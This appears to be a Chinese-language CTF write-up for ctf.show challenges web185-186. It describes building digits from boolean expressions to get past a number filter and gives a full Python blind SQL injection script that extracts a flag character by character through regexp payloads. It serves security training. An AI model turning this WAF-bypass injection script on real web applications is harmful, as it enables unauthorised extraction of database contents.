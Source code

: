 ### 构造数字

web185-186

count聚合函数和regexp正则匹配----盲注

禁用了数字，regexp的使用受到影响，通过使用布尔值构造数字，例如true+true=2

```python
import requests

url = 'https://3425520d-f6cb-4996-9d8b-477125e21e19.challenge.ctf.show/select-waf.php'
strlist = '{0123456789-abcdef}'
flagstr = ''
flag = ''
# power函数  power(2,3)，返回2^3
strdict = {'0':'false,','1':'true,','2':'(true+true),',
           '3':'(true+true+true),','4':'(true+true+true+true),',
           '5':'(true+true+true+true+true),','6':'(true+true+true+true+true+true),',
           '7':'(power((true+true),(true+true+true))-true),',
           '8':'(power((true+true),(true+true+true))),',
           '9':'(power((true+true),(true+true+true))+true),'
           }

# 位运算
# strdict = {'0':'false,','1':'true,','2':'(true<<true),',
#            '3':'((true<<true)+true),','4':'(true<<true+true),',
#            '5':'((true<<true+true)+true),','6':'((true<<true+true)+true+true),',
#            '7':'((true+true<<true+true)-true),',
#            '8':'(true+true<<true+true),',
#            '9':'((true+true<<true+true)+true),'
#            }

while True: #不知道 flag 长度
    for i in strlist:
        m = ''
        #将每个字符转成 Unicode编码对应的十进制（Unicode编码为ASCII码扩展）
        #对其十进制进行拆分转换，这样可以降低一点时间复杂度
        for x in str(ord(i)):
            m += strdict[x]
        m = 'char(concat('+m[:-1]+')),'

        data = {
            'tableName': "ctfshow_user group by pass having pass regexp(concat({}))".format(flagstr+m[:-1])
        }

        respond = requests.post(url, data=data)  # 获取页面代码
        respond = respond.text  # 解析成字符串类型
        if 'user_count = 1' in respond:
            print('--------------------正确',i)
            flagstr += m
            flag += i
            print('ctfshow'+flag)
            break
        else:print('==================='+i+'错误')
    if flag[-1] == '}':exit()   #判断 flag 是否获取完整

```
